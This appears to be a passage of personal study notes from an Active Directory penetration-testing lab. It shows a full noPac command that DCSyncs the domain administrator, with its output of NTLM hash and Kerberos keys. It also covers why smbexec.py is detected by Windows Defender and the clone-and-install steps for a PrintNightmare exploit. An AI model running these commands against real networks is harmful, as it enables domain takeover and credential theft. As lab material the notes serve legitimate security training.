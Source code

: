 Confirming the Location of Saved Tickets
ls
administrator_DC01.INLANEFREIGHT.local.ccache  noPac.py   requirements.txt  utils
README.md  scanner.py

Using noPac to DCSync the Built-in Administrator Account
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Alreay have user administrator ticket for target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f
[*] Cleaning up...

### Windows Defender & SMBEXEC.py Considerations

If Windows Defender (or another AV or EDR product) is enabled on a target :

our shell session may be OK but issuing any commands will likely fail. 

Why ?
smbexec.py creates a service called BTOBTO
Any command we type is sent to the target over SMB inside a .bat file called execute.bat
With each new command we type, a new batch script is created and echoed to a temporary file that executes said script and deletes it from the system.

Windows Defender considers that behavior as malicious because of the creation and deletion of the tempory file.

--> smbexec.py is not quiet

## PrintNightmare

2 vulnerabilities (CVE-2021-34527 and CVE-2021-1675) found in the Print Spooler service

Cloning the Exploit
git clone https://github.com/cube0x0/CVE-2021-1675.git

Install cube0x0's Version of Impacket
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install

